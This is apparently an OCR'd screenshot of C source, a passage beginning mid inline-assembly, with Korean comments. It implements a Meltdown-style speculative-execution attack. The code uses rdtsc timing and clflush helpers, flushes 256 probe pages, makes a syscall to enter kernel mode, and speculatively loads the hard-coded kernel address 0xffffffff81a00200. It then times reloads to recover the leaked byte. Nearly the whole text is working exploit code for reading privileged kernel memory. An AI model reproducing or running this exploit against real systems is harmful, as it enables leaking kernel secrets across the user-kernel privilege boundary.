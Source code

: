 ```c
".global measure_time\n"
"measure_time:\n"
"	mfence\n"
"	lfence\n"
"	rdtsc\n"
"	lfence\n"
"	movq %rax, %rcx\n"
"	movb (%rdi), %al\n"
"	lfence\n"
"	rdtsc\n"
"	subq %rcx, %rax\n"
"	ret\n"
);

extern void clflush(void *);
asm(
".section .text\n"
".global clflush\n"
"clflush:\n"
"	mfence\n"
"	clflush (%rdi)\n"
"	retq\n"
);

int main(int argc, char ** argv) {
	char (*mapping)[PAGE_SIZE];
	mapping = mmap(NULL, PAGE_SIZE * 256, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if(mapping == MAP_FAILED)
	{
		perror("mmap mapping");
		exit(-1);
	}
	memset(mapping, 0, PAGE_SIZE * 256);

	int min = 99999;
	int min_val = 0;

	// 커널 메모리 주소
	void *addr;
	addr = 0xffffffff81a00200;

	for(int i=0; i<256; i++){
		// flush
		clflush(mapping[i]);

		// 컨텍스트 스위칭/커널 모드 진입을 위한 인터럽트 
		syscall(0, -1, 0, 0);

		// 캐시 메모리에 커널 메모리 값 로드
		specu(addr, mapping);

		// 하나씩 로드해보면서 캐시된 값 찾기
		unsigned long long t = measure_time(mapping[i]);

		// 로드까지 가장 짧게 걸린 값 구하기
		if (t < min) {
			min = t;
			min_val = i;
		}
		printf("%d ", t);
	}
	puts("");
```